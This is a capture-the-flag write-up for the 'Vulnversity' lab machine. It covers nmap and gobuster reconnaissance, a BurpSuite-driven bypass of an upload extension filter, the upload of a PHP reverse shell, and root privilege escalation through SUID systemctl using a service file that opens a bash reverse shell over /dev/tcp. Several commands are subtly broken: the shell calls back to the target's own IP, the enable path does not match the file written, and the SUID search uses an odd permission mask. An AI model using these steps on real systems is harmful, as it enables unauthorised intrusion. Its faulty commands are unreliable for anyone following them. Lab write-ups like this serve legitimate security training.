


# Vulnversity


## Recognition

Start by scanning the machine with nmap

```bash
nmap -sV -A --script vuln 10.9.9.65
```

We see that the Apache server is running on port `3333`

So we scan this server

```bash
gobuster dir -u http://10.9.9.65:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

We discover a subfolder `/internal/` that lets you upload files using a form.

The only problem is that this form doesn't allow any type of file.


We'll use BurpSuite to find the authorized file(s).

Once BurpSuite has been set up correctly, we intercept the request and send a random file.

Then we use `Sniper` and add a payload at the filename extension `filename="name.txt"`.
Just before the '.' and just after the end of the extension.



As suggested in the task 4 of the room, we create a wordlist with some extensions. We add these extensions as payloads in BurpSuite and then we can start the Attack.




Once the attack has been carried out, a window shows status 200 for each extension tested, as the request was successful. We therefore need to find out when the error message is not sent (the size of the response will be different).

We find that the extension that works is `.phtml`.

We'll use a reverse-shell already present in kali `/usr/share/webshells/php/php-reverse-shell.php` and rename it to `shell.phtml` (don't forget to change IP and port variables).

This file can now be uploaded to the server. But before Submit, in a terminal, enter the following command:

```bash
nc -lvnp [PORT]
```

SUBMIT.

There's a `bill` user, and in his /home, we can retrieve one of the expected flags.


Next, we need to find a way to gain better privileges. We look for files with the SUID included for the root user.

```bash
find / -type f -user root -perm 6000 2> /dev/null
```

We can see that `/bin/systemctl` is usable. Let's try to play with it. We can't use a text editor. So we're using the `echo` command to write in a file:

```bash
touch /tmp/root.service
echo "
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.9.65/4444 0>&1'
[Install]
WantedBy=multi-user.target
" >> /tmp/root.service
```

We now need to listen on our port 4444.
```bash
nc -lvnp 4444
```

Go back to the machine you're running and start the service.
```bash
/bin/systemctl enable /tmp/root/service
/bin/systemctl start root
```

So we get a shell (with the root user) on the machine and have access to everything we want.
```bash
cat /root/root.txt
```

THE END.
